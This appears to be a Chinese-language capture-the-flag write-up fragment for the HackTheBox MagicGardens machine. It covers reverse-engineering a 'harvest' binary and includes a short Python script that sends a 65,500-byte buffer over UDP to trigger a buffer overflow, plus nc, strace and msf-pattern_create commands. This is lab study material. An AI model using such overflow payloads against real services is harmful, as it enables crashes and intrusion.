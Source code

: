 ![image-20240807161721637](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807161721637.png)

发现有个harvest,尝试运行

![image-20240807161812847](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807161812847.png)

把这个二进制文件下载到kali,用ida反编译可以发现一个缓冲区溢出漏洞,逆向分析可知版本**1.0.3**，端口1337

https://medium.com/@Infinite_Exploit/magicgardens-htb-htb-writeup-htb-walkthrough-season-5-65c956d588fa

![image-20240807162244108](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807162244108.png)

程序运行后会开启监听

![image-20240807162346602](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807162346602.png)

![image-20240807162357267](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807162357267.png)

打印版本信息

```
echo "harvest v1.0.3" | nc 127.0.0.1 1337
```

![image-20240807162732123](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807162732123.png)

![image-20240807162740207](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807162740207.png)



缓冲区溢出利用脚本



```python
import socket

server_address = ('::1',6666)
s = socket.socket(socket.AF_INET6, socket.SOCK_DGRAM)
s.connect(server_address)
data = b'A'*65500
s.send(data)
```



```
strace -t -e trace=openat ./harvest server -l save.txt
```

缓冲区载荷生成脚本

```
msf-pattern_create -l 65500 > bof.txt
```

![image-20240807165303755](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240807165303755.png)

